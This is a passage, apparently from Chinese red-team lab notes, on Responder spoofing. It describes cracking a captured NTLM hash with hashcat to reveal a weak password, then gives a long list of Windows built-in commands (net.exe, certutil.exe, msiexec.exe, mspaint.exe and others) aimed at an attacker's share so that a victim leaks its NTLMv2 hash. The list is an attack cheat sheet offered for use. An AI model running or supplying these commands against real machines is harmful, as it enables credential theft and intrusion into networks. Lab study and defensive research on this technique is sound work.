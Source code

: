 获取 hash 值之后，我们尝试使用 kali 自带的 hashcat 对这段 hash 进行暴力破解

![](../../../../../assets/img/Security/RedTeam/OS安全/实验/Responder欺骗/4.png)

可以看到跑出了弱口令 Abcd1234

下列命令都可以使 responder 获得 NTLV V2 hash。
```bash
net.exe use \hostshare
attrib.exe \hostshare
cacls.exe \hostshare
certreq.exe \hostshare #(noisy, pops an error dialog)
certutil.exe \hostshare
cipher.exe \hostshare
ClipUp.exe -l \hostshare
cmdl32.exe \hostshare
cmstp.exe /s \hostshare
colorcpl.exe \hostshare #(noisy, pops an error dialog)
comp.exe /N=0 \hostshare \hostshare
compact.exe \hostshare
control.exe \hostshare
convertvhd.exe -source \hostshare -destination \hostshare
Defrag.exe \hostshare
diskperf.exe \hostshare
dispdiag.exe -out \hostshare
doskey.exe /MACROFILE=\hostshare
esentutl.exe /k \hostshare
expand.exe \hostshare
extrac32.exe \hostshare
FileHistory.exe \hostshare #(noisy, pops a gui)
findstr.exe * \hostshare
fontview.exe \hostshare #(noisy, pops an error dialog)
fvenotify.exe \hostshare #(noisy, pops an access denied error)
FXSCOVER.exe \hostshare #(noisy, pops GUI)
hwrcomp.exe -check \hostshare
hwrreg.exe \hostshare
icacls.exe \hostshare
licensingdiag.exe -cab \hostshare
lodctr.exe \hostshare
lpksetup.exe /p \hostshare /s
makecab.exe \hostshare
msiexec.exe /update \hostshare /quiet
msinfo32.exe \hostshare #(noisy, pops a "cannot open" dialog)
mspaint.exe \hostshare #(noisy, invalid path to png error)
msra.exe /openfile \hostshare #(noisy, error)
```